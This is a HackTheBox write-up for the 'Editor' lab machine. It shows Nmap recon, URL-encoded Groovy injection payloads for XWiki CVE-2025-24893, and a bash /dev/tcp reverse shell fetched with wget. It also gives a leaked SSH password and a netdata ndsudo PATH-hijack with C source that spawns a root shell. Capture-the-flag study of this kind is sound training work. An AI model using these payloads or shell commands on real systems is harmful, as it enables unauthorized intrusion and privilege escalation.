 ```yaml
---
title: "Editor HackTheBox Writeup"
date: 2025-08-31
tags: [ssh, HackTheBox, ndsudo]
categories: [HackTheBox]
---
```


# HackTheBox - Editor



![](assets/images/hackthebox/Editor/Pasted image 20250821174033.png)


# Reccon

As usual we will start with the *Nmap*
```
nmap -sC -sV --min-rate 5000 -T5 -Pn -p- 10.10.11.80
```

![](images/hackthebox/Editor/Pasted image 20250821174634.png)

Looking at the result , we have 

-   22/tcp   open  ssh     OpenSSH
-  80/tcp   open  http    nginx
-  8080/tcp open  http    Jetty

Let add *editor.htb* in our hosts file
```
echo "10.10.11.80 editor.htb" | sudo tee -a /etc/hosts
```

# WebEnumeration

On port 80 we have

![](images/hackthebox/Editor/Pasted image 20250821175749.png)

And on port *8080*

![](images/hackthebox/Editor/Pasted image 20250821175938.png)

I saw the *Xwiki* version in the bottom , when i googled about it , i came acrros this CVE 2025-24893 

![](images/hackthebox/Editor/Pasted image 20250821191425.png)

and for the exploit , i got this [Exploit](https://github.com/a1baradi/Exploit/blob/main/CVE-2025-24893.py) 
To get the shell , we first need to create *shell.sh*

```
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP>/9001 0>&1
```

After creating a *shell.sh* start a python server in you local machine

```
python3 -m http.server 8000
```

Then in the browser Paste this encoded URL

 ```
  http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln("wget%20-qO%20/tmp/shell.sh%20http://10.10.14.205:8000/shell.sh".execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D

 ```

Then have a listener of your choice , mine is *net-cat*

```
rlwrap nc -lvnp 9001
```

Then execute your payload
```
http://editor.htb:8080/xwiki/bin/view/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln(%22bash%20/tmp/shell.sh%22.execute().text)%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

And **Boom** u got your shell

![](images/hackthebox/Editor/Pasted image 20250822194504.png)

In **/etc/passwd** u will find that there is a user called **oliver**

```
oliver:x:1000:1000:,,,:/home/oliver:/bin/bash
```

Then in the **WEB-INF** u will find **hibernate.cfg.xml**
In which u will find the password of **Oliver**

```
theEd1t0rTeam99
```

![](images/hackthebox/Editor/Pasted image 20250822200138.png)
```
ssh oliver@editor.htb
```

Getting into the user , we got our **user.txt** 

# Getting the Root

On  Localhost at port 19999 there is a service running called **netdata**

![](images/hackthebox/Editor/Pasted image 20250822201529.png)

So we did some Port forwarding

```
ssh -L 19999:127.0.0.1:19999 oliver@editor.htb
```

Paste this in your browser

```
http://localhost:19999/
```

![](images/hackthebox/Editor/Pasted image 20250822203154.png)

Clicking on the **Please update them** , we get the version **1.45.2**

![](images/hackthebox/Editor/Pasted image 20250822203407.png)

After digging the internet we get this [CVE-2024-32019](CVE-2024-32019)
**Oliver** has permission to run `ndsudo`:
1. Place an executable with a name that is on `ndsudo`’s list of commands (e.g. `nvme`) in a writable path
2. Set the `PATH` environment variable so that it contains this path
3. Run `ndsudo` with a command that will run the aforementioned executable
First we need to make an **exploit.c** binary , then compile it

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);       // Switch to root
    setgid(0);       // Switch group to root
    system("/bin/bash");  // Spawn a root shell
    return 0;
}
```

Then compile it

```
gcc -o nvme exploit.c
```

Then we need to upload the exploit.c in Oliver's **/tmp** directory , for that we will use python server

```
python3 -m http.server 8000
```

Then the following

```
curl http://<YOUR-IP>:8000/nvme -o nvme
chmod +x nvme
export PATH=/tmp:$PATH
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

And **Boom** we got the root.txt

![](images/hackthebox/Editor/Pasted image 20250822211101.png)



---
